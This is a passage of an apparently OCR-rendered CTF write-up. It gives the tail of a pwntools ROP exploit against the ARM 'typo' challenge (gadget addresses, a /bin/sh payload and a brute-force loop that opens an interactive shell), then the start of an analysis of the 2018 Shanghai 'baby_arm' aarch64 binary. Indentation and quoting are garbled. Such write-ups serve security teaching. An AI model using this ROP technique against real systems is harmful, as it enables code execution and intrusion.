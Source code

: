 ```
    Strings information

    ============================================================

    0x0006c384 : /bin/sh

    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop|ret" | grep r0

    0x00020904 : pop {r0, r4, pc}

    '''

    

    payload = 'a' * i + p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)

    success(i)

    io.sendlineafter("\n", payload)



    #  pause()

    try:

        #  pdb.set_trace()

io.sendline (&quot;echo aaaa&quot;)
io.recvuntil (&quot;aaaa&quot;, timeout = 1)
    except EOFError:

io.close ()
        continue

    else:

io.interactive ()
```



## 2018 Shanghai University Student Network Security Competition - baby_arm


### Static analysis


The title gave a `aarch64` schema file without open canary protection
```bash

Shanghai2018_baby_arm [master] check ./pwn

+ file ./pwn
./pwn: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=e988eaee79fd41139699d813eac0c375dbddba43, stripped

+ checksec ./pwn

[*] '/home/m4x/pwn_repo/Shanghai2018_baby_arm/pwn'

    Arch:     aarch64-64-little
```